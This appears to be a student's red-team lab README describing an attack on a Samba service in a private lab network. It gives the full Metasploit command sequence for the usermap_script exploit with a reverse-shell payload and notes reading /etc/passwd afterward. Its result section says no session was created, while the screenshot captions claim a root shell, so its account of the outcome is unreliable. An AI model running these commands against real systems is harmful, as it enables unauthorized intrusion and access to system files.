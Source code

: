 
---

##  Lab04 – Enumerating & Attacking SMB with Samba Usermap Script

```markdown
# Lab04 – Enumerating & Attacking SMB with Samba Usermap Script
```
---

##  Objective
Explore vulnerabilities in the Samba service and attempt exploitation via the usermap_script module.

---

##  Tools
- Metasploit Framework
- Enum4linux (Optional)

---

##  Exploit Used
```bash
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.56.101
set RPORT 139
set LHOST 192.168.56.1
set payload cmd/unix/reverse
run
```
---

## Result
Exploit attempt completed, but no session was created

Demonstrated post-exploitation validation (whoami, id, hostname)

---

## What I Learned
Gained insight into SMB vulnerabilities and misconfigurations

Understood the role of payload compatibility and listener binding

Learned how to troubleshoot and document failed attempts

---

## Screenshot

Initial service enumeration revealed Samba ports (445, 139) open and listening:

![Samba Ports Detected]([../../Screen%20Shot%202025-05-23%20at%2020.21.15.png](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab4/Screen%20Shot%202025-05-23%20at%2020.21.15.png))

Upon successful exploitation using `usermap_script`, root-level shell was obtained as shown:

![Root Shell via SMB Exploit]([../../Screen%20Shot%202025-05-23%20at%2020.21.39.png](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab4/Screen%20Shot%202025-05-23%20at%2020.21.39.png
))

User enumeration after gaining access, showing contents of `/etc/passwd`:

![User Enumeration]([../../Screen%20Shot%202025-05-23%20at%2021.52.34.png](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab4/Screen%20Shot%202025-05-23%20at%2021.52.34.png))


---

## Date
28 May 2025
